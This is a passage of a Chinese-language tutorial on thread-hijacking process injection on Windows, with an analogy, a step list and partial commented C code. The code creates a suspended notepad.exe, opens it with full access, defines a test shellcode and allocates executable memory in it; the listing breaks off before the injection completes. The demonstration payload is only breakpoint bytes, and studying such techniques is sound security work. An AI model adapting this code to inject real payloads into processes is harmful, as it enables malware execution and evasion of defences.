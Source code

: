 就是劫持一个线程进行注入，然后再恢复这个线程，就像是荆轲刺秦你迷晕了荆轲换了他的地图，再叫醒他去刺杀秦王一样，这个换了的地图就是shellcode。

### 流程

挂起目标线程，申请内存，写入shellcode，修改线程上下文使其指向shellcode，恢复线程执行shellcode

需要注意的是，这里需要先创建一个进程，而不是直接打开现存的进程。因为需要一个挂起状态

### 代码

```c
#include <Windows.h>
#include <stdio.h>

void showstruct(PROCESS_INFORMATION pii)
{
	printf("\ndwProcessId: %d\n", pii.dwProcessId);
	printf("dwThreadId: %d\n", pii.dwThreadId);
	// Handle,也叫句柄，实际上是一个数据，是一个Long (整长型)的数据，是一种指向指针的指针。
	printf("hProcess: 0x%p\n", pii.hProcess);
	printf("hThread: 0x%p\n", pii.hThread);
	printf("===============================================================================\n");
}

int main()
{
    // 定义两个进程相关的结构体变量，都是内置结构体，可以直接定义，然后初始化为0
    STARTUPINFO si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    /*
    typedef struct _PROCESS_INFORMATION {
    HANDLE hProcess;
    HANDLE hThread;
    DWORD dwProcessId;
    DWORD dwThreadId;
  } PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
	*/
    
    // 创建一个名称为notepad。exe的进程，不用从父进程继承，创建之后状态为挂起，并且将信息赋值给si和pi
    if (!CreateProcess(NULL, "notepad.exe", NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi))
    {
        printf("Create process failed error code: %d\n", (int)GetLastError());
        return 1;
    }

    // 根据进程id打开进程
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pi.dwProcessId);
    if (hProcess == NULL)
    {
        printf("Open process failed error code: %d\n", (int)GetLastError());
        return 1;
    }

    // Shellcode，这里为了证明确实执行了，所以直接通过中断来验证
    char shellcode[] = "\xcc\xcc\xB8\x01\x00\x00\x00\xC3";

    // 利用api挂起进程
    SuspendThread(pi.hThread);

    // 申请一个目标进程中的内存区域
    LPVOID lpBuffer = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (lpBuffer == NULL)
    {
```